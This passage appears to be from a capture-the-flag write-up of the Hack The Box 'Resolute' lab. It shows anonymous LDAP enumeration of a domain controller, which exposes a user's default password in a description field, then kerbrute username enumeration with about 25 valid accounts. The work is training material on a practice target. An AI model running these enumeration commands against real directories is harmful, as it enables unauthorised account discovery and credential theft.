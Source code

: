 ```bash

# search result
search: 2
result: 0 Success

# numResponses: 2
# numEntries: 1
```

Extract list of users and found user Marko with password set to `Welcome123!`:

```bash
ldapsearch -x -H ldap://10.10.10.169 -D '' -w '' -b "DC=megabank,DC=local" '(objectClass=person)' > ldap-people

cn: Marko Novak
sn: Novak
description: Account created. Password set to Welcome123!
givenName: Marko
distinguishedName: CN=Marko Novak,OU=Employees,OU=MegaBank Users,DC=megabank,D
 C=local
```

## Kerberos

Validated list of names pulled from LDAP:

```bash
sudo ./kerbrute_linux_amd64 userenum --dc 10.10.10.169 -d megabank.local -o kerbrute-user-enum /home/kali/Downloads/HackTheBox/Resolute/userlist

2024/06/22 13:09:19 >  [+] VALID USERNAME:       MS02$@megabank.local
2024/06/22 13:09:19 >  [+] VALID USERNAME:       ryan@megabank.local
2024/06/22 13:09:19 >  [+] VALID USERNAME:       marcus@megabank.local
2024/06/22 13:09:19 >  [+] VALID USERNAME:       sunita@megabank.local
2024/06/22 13:09:19 >  [+] VALID USERNAME:       marko@megabank.local
2024/06/22 13:09:19 >  [+] VALID USERNAME:       RESOLUTE$@megabank.local
2024/06/22 13:09:19 >  [+] VALID USERNAME:       sally@megabank.local
2024/06/22 13:09:19 >  [+] VALID USERNAME:       abigail@megabank.local
2024/06/22 13:09:19 >  [+] VALID USERNAME:       felicia@megabank.local
2024/06/22 13:09:19 >  [+] VALID USERNAME:       angela@megabank.local
2024/06/22 13:09:19 >  [+] VALID USERNAME:       fred@megabank.local
2024/06/22 13:09:19 >  [+] VALID USERNAME:       gustavo@megabank.local
2024/06/22 13:09:19 >  [+] VALID USERNAME:       stevie@megabank.local
2024/06/22 13:09:19 >  [+] VALID USERNAME:       ulf@megabank.local
2024/06/22 13:09:19 >  [+] VALID USERNAME:       claire@megabank.local
2024/06/22 13:09:19 >  [+] VALID USERNAME:       paulo@megabank.local
2024/06/22 13:09:19 >  [+] VALID USERNAME:       steve@megabank.local
2024/06/22 13:09:19 >  [+] VALID USERNAME:       annette@megabank.local
2024/06/22 13:09:19 >  [+] VALID USERNAME:       annika@megabank.local
2024/06/22 13:09:19 >  [+] VALID USERNAME:       per@megabank.local
2024/06/22 13:09:19 >  [+] VALID USERNAME:       claude@megabank.local
2024/06/22 13:09:19 >  [+] VALID USERNAME:       melanie@megabank.local
2024/06/22 13:09:19 >  [+] VALID USERNAME:       zach@megabank.local
2024/06/22 13:09:19 >  [+] VALID USERNAME:       simon@megabank.local
2024/06/22 13:09:19 >  [+] VALID USERNAME:       naoki@megabank.local
```
